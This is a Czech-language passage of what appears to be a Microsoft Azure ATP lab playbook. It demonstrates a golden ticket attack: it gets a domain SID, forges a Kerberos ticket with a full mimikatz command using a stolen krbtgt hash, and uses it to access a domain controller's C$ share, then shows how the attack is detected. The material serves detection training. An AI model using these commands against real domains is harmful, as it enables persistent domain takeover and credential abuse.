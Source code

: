 1. Jako JeffL, spusťte následující příkaz na **VictimPC** získat identifikátorem SID domény:

   ``` cmd
   whoami /user
   ```

   ![Identifikátor SID pro uživatele zlatý lístek](media/playbook-dominance-golden_whoamisid.png)

2. Identifikujte a zkopírujte identifikátor SID domény zvýrazněn ve výše uvedeném snímku obrazovky.

3. Pomocí **mimikatz**, trvat zkopírovaný SID domény společně s odcizeného "krbtgt" NTLM hash uživatele ke generování lístku TGT. Vložte následující text do cmd.exe jako JeffL:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   ![Generovat zlatý lístek](media/playbook-dominance-golden_generate.png)

   ```/ptt``` Část příkazu povolené, abychom mohli ihned Předat generované lístky do paměti.

4. Ujistíme se, že přihlašovací údaje v paměti.  Spustit ```klist``` v konzole.

   ![příkaz výsledky po úspěšném generovaných lístků](media/playbook-dominance-golden_klist.png)

5. Funguje jako útočník, spusťte následující příkaz, Pass-the-Ticket použít proti řadiči domény:

   ``` cmd
   dir \\ContosoDC\c$
   ```

   Úspěch! Jste vygenerovali **falešné** zlatý lístek pro SamiraA.

   ![Spouští úlohy prostřednictvím mimikatz zlatý lístek](media/playbook-dominance-golden_ptt.png)

Proč to fungovalo? Zlatý lístek útoku funguje, protože-the-ticket generované byla správně podepsána pomocí 'Účtu KRBTGT' klíč, který jsme který jste získali dříve. Tento lístek umožňuje nám, jako útočník získat přístup k ContosoDC a chceme přidat do skupiny zabezpečení, který jsme chtěli používat.

#### <a name="golden-ticket--existing-user-attack-detection"></a>Detekce útoku Golden Ticket - existujícího uživatele

Ochrana ATP v programu Azure využívá několik metod pro detekci podezřelých útoků tohoto typu. V tomto scénáři přesné zjistil ochrany ATP v programu Azure oslabení šifrování falešné lístku.

![Zlatý lístek zjištění](media/playbook-dominance-golden_detected.png)

> [!Important]
>Připomenutí. Tak dlouho, dokud KRBTGT získaných ze strany útočníka zůstává v platnosti v rámci prostředí, lístky, vygeneruje s ním také zůstávají platné. V tomto případě útočník dosahuje dominance v doméně trvalé až [KRBTGT není dvakrát resetován](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password).

## <a name="next-steps"></a>Další postup
